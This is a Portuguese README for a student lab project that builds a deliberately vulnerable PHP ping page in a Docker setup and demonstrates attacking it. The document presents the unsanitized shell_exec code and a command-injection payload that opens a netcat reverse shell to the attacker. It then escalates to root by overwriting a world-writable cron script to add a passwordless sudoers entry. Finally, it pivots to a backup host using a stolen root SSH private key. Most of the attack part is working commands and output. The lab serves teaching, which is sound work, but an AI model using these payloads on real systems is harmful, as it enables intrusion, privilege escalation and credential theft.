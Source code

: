 # Projeto

## Grupo
- Fernando Braghiroli - 11800500
- Matheus Baptistella - 11223117

## Fase 1
### Funcionamento
Para este projeto, o objetivo era desenvolver um servidor web Apache em PHP 5 que tivesse alguma vulnerabilidade que o grupo pudesse explorar para criar uma demonstração. Para isso, o grupo criou uma página na qual o usuário pode inserir um domínio e o site utiliza o comando `ping` para pingar o domínio, mostrando parte do output do comando na página web para o usuário saber que o comando está funcionando. O código PHP processa a entrada do usuário a partir do formulário HTML e executa a seguinte linha de código:
```php
shell_exec("ping -c 4 " . $ip);
```

Ou seja, ele cria um comando a partir do input do usuário e manda para a shell executar. Isto é uma vulnerabilidade, pois a shell está executando algo controlado pelo o usuário. Deste modo, o grupo decidiu demonstrar o Atatque de "Command Injection" no PHP para utilizar esta vulnerabilidade. O ataque consiste em explorar o input de usuário que não é sanitizado para executar algum comando malicioso. Neste caso, o grupo decidiu abrir uma conexão de shell reversa, isto é, ao invés do atacante se conectar ao servidor (bind), como no caso inicial da página web para efetuar o ping, o atacante cria um listener em sua máquina que fica esperando por uma conexão. Assim, ao incluir o comando malicioso no alvo (servidor), o servidor é quem faz a request para se conectar ao atacante. Desta forma, o atacante obtém controle total sobre o sistema vulnerável através do shell reverso. Isso permite a execução de comandos, exploração de dados, e potencial escalonamento de privilégios.

### Execução
Para simular o ataque, inicialmente deve-se ter instalado na máuina local o Docker/docker compose, e o Netcat. Assim, é necessário estar no diretório do projeto:
```bash
cd projeto
```
e então pode-se iniciar o servidor (vítima) com o comando:
```bash
./start.sh
```
caso o script não tenha permissão para executar:
```bash
chmod +x start.sh
```
Para visualizar o serviço web, acesse o endereço `http://localhost:8080`. Teste o funcionamento esperado da página colocando `google.com` no campo para inserir o IP. O output será mostrado na própria página. Após verificar o correto funcionamento do serviço, na sua máquina local crie um listener com o netcat através do comando:
```bash
nc -lvnp 4444
```
neste listener será conectada a shell reversa. De volta para a página web, podemos modificar o input do usuário de forma que o servidor execute o ping e depois execute um comando adicional. Para isso, podemos formular o payload (para saber o endereço da interface pode-se utilizar o comando `ifconfig`):
```
google.com; nc <endereço inet da interface wlp3s0> 4444 -e /bin/bash
```
A primeira parte garante que o comando será válido, pois `ping` espera um endereço. Ao utilizar o caractere `;`, estamos instruindo a shell a executar o comando seguinte depois do ping. O próximo comando é utilizado para criar a conexão em shell reversa, ao utilizar o netcat para estabelecer uma conexão com o atacante na porta `4444` e executar uma shell `/bin/bash`. Assim, ao incluir o ip corretamente e submeter o formulário no serviço web, pode-se notar que no terminal do listener temos uma shell reversa:
```bash
$ nc -lvnp 4444
Listening on 0.0.0.0 4444
Connection received on <address>
ls
index.php
whoami
www-data
pwd
/var/www/html
```

## Fase 2
### Funcionamento
Após invadir a máquina vítima, temos as permissòes para o usuário `www-data`. Desta forma, para conseguir aplicar a técnica de "pivoting" precisamos escalar privilégios. Um jeito comum de se fazer isso é através de scripts executados pelo `cron`, o qual permite a execução automática de comandos ou scripts em horários, datas ou intervalos regulares, especialmente aqueles criados pelos usuários mas que são executados como root. Ao colocar permissões erradas para o script que será executado de tempos em tempos, a vítima permite que o atacante sobrescreva o conteúdo do script com o que ele quiser. Depois disso, o atacante já tem acesso root na máquina e agora precisa escanear a rede para encontrar outras máquinas. Neste caso, a vítima possui uma outra máquina que serve como um backup de seu serviço web, copiando arquivos através de uma conexão ssh. Finalmente, o atacante pode encontrar a chave privada utilizada na conexão para que seja possível pivotar para a próxima máquina.

### Execução
Dentro da shell reversa e ainda como usuário `www-data` pode-se verificar o conteúdo dos scripts sendo executados pelo serviço `cron`. Para isso, pode-se listar os diretórios onde as tarefas são configuras:
```bash
ls /etc/ | grep cron
```
E depois ver quais são executadas no `crontab`. Entretanto, como o atacante ainda é um usuário normal os serviços executados como root não estarão visíveis. Neste caso, pode-se analidar quais estão configurados apra executar no diretório `cron.d`:
```bash
ls /etc/cron.d
cronjob
cat /etc/cron.d/cronjob
* * * * * root /usr/local/bin/date.sh
* * * * * root /usr/local/bin/backup.sh
```
Ou seja, existem duas tarefas programadas para serem executadas regularmente pelo cron. Ao analisar mais detalhadamente cada uma:
ls -l /usr/local/bin/     
-rwxrwxr-x 1 root root       562 Aug 21 11:37 backup.sh
-rwxrwxrwx 1 root root        44 Aug 20 19:48 date.sh

Nota-se que `date.sh` possui permissão de escrita para usuários da categoria `Others`, justamente o usuário do atacante (www-data). Assim, o objetivo agora é sobrescrever o conteúdo daquela tarefa para algo que dê o privilégio root. Assim, o comando:
```bash
echo '#!/bin/bash
echo "www-data ALL=(ALL) NOPASSWD: ALL" >> /etc/sudoers
/bin/bash' > /usr/local/bin/date.sh
```
Desta forma, o atacante pode se otrnar qualquer usuário através do `sudo`, sem precisar de uma senha e podendo executar todos os coamndos. A tarefa do cron é executada a cada minuto, por isso pode ser que imediatamente nenhuma mudança seja percebida, mas pode-se verificar que tem-se todas as permissões digitando:
```bash
sudo -l
Matching Defaults entries for www-data on 690dde220c48:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User www-data may run the following commands on 690dde220c48:
    (ALL) NOPASSWD: ALL
```
Pode-se instalar o python para testar os privilégios e conseguir uma shell tty:
```bash
sudo apt-get install python -y
```
e então
```bash
python -c "import pty; pty.spawn('/bin/bash');"
```
Após isso, pode-se tornar usuário root:
```bash
sudo -i
```
Ao analisar novamente o script `backup.sh`, nota-se que ele faz o backup através do `rsync` de um diretório na máquina vítima para outra máquina:
```bash
cat /usr/local/bin/backup.sh

```
Dai pode-se observar que a chave privada para conexão está em `/root/.ssh/id_rsa`. Finalmente, podemos utilizar o comando a seguir para pivotar para a próxima máquina como usuário `backupuser`:
```bash
ssh -i /root/.ssh/id_rsa -o StrictHostKeyChecking=no backupuser@backup
backupuser@0fe91d2c7d29:~$ whoami
backupuser
```

